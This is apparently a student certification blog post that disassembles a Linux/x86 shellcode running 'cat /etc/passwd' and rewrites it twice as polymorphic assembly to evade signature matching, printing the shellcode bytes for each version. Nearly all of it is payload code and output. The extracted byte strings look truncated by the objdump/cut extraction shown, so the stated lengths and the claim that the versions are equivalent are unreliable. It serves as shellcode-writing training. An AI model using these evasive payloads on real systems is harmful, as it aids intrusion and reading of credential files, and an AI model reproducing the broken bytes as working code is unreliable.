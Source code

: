 # Polymorphic conversion of three payloads - part 1

## /bin/cat /etc/passwd

The shellcode chosen for this assignment comes from Shellstorm (Linux/x86 - bin/cat /etc/passwd) and is located at 
<http://shell-storm.org/shellcode/files/shellcode-571.php>.

This shellcode claims to perform a cat on */etc/passwd* and has a length of *43 bytes*. Let's take the shellcode and decompile it. Using *echo* with the -n flag enables the interpretation of backslashes, in this way strings will not be interpreted by the disassembler as instructions.

```
> echo -ne "\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80" | ndisasm -b32 -

00000000  31C0              xor eax,eax
00000002  99                cdq
00000003  52                push edx
00000004  682F636174        push dword 0x7461632f
00000009  682F62696E        push dword 0x6e69622f
0000000E  89E3              mov ebx,esp
00000010  52                push edx
00000011  6873737764        push dword 0x64777373
00000016  682F2F7061        push dword 0x61702f2f
0000001B  682F657463        push dword 0x6374652f
00000020  89E1              mov ecx,esp
00000022  B00B              mov al,0xb
00000024  52                push edx
00000025  51                push ecx
00000026  53                push ebx
00000027  89E1              mov ecx,esp
00000029  CD80              int 0x80
```

In a nutshell the following syscall is used to execute cat and print the */etc/passwd*.

* int execve(const char *filename, char *const argv[], char *const envp[]);

Let's try to modify the syntax of the code without affecting the semantic.

```
; compile with:
; 	nasm -f elf32 shellcode-571-poly-min.asm
;	ld -o shellcode-571-poly shellcode-571-poly-min.o
; extract shellcode with:
; 	objdump -d shellcode-571-poly|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

global _start
section .text
    _start:
        mov al, 0xb                    ; place the syscall number in the al register
        and eax, 0xF                   ; apply mask to zeroing everything except the syscall number
        cdq                            ; zeroing edx register
        push edx                       ; push on the stack a null address that act as end of string
        mov dword [esp-4], 0x7461632f  ; push on the stack tac/
        mov dword [esp-8], 0x6e69622f  ; push on the stack nib/
        lea ebx, [esp-8]               ; load the address of the string /bin/cat into ebx
        sub esp, 8                     ; adjust esp to allow a correct push 
        push edx                       ; push on the stack a null byte
        mov dword [esp-4], 0x64777373  ; push on the stack dwss
        mov dword [esp-8], 0x61702f2f  ; push on the stack ap//
        mov dword [esp-12], 0x6374652f ; push on the stack cte/ 
        sub esp, 12                    ; adjust esp to allow a correct push 
        mov ecx, esp                   ; store the address to /etc/passwd in ecx 
        push edx                       ; push on the stack a null address that act as a end of array as stated in man 2 execve
        push ecx                       ; push on the stack the address to /etc/passwd
        push ebx                       ; push on the stack the address to /bin/cat
        mov ecx, esp                   ; mov the address that point to the first item of argv in ecx
        int 0x80                       ; interrupt for execve syscall
```

The resulting shellcode does not contains null bytes and is very different from the initial one, however semantically the two shellcodes are identical. This new shellcode is *62 bytes* long.

```
\xb0\x0b\x83\xe0\x0f\x99\x52\xc7\x44\x24\xfc\x2f\x63\x74\xc7\x44\x24\xf8\x2f\x62\x6e\x8d\x5c\x24\xf8\x83\xec\x08\x52\xc7\x44\x24\xfc\x73\x73\x64\xc7\x44\x24\xf8\x2f\x2f\x61\xc7\x44\x24\xf4\x2f\x65\x63\x83\xec\x0c\x89\xe1\x52\x51\x53\x89\xe1\xcd\x80
```

A further modified version might be the following, but the final size of the shellcode is more the 150% of the original: *75 bytes* long.

```
; compile with:
; 	nasm -f elf32 shellcode-571-poly.asm
;	ld -o shellcode-571-poly shellcode-571-poly.o
; extract shellcode with:
; 	objdump -d shellcode-571-poly|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

global _start
section .text
	_start:
		mov al, 0xb	
		and eax, 0xF 
		cdq
		mov dword [esp-4], edx
		mov dword [esp-8], 0x7461632f
		mov dword [esp-12], 0x6e69622f
		lea ebx, [esp-12]
		mov dword [esp-16], edx
		mov dword [esp-20], 0x64777373
		mov dword [esp-24], 0x61702f2f
		mov dword [esp-28], 0x6374652f
		lea ecx, [esp-28]
		mov dword [esp-32], edx
		mov dword [esp-36], ecx
		mov dword [esp-40], ebx
		lea ecx, [esp-40]
		int 0x80
```

The resulting shellcode:

```
\xb0\x0b\x83\xe0\x0f\x99\x89\x54\x24\xfc\xc7\x44\x24\xf8\x2f\x63\x74\xc7\x44\x24\xf4\x2f\x62\x6e\x8d\x5c\x24\xf4\x89\x54\x24\xf0\xc7\x44\x24\xec\x73\x73\x64\xc7\x44\x24\xe8\x2f\x2f\x61\xc7\x44\x24\xe4\x2f\x65\x63\x8d\x4c\x24\xe4\x89\x54\x24\xe0\x89\x4c\x24\xdc\x89\x5c\x24\xd8\x8d\x4c\x24\xd8\xcd\x80
```

Great! Analysis completed.
 
<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*



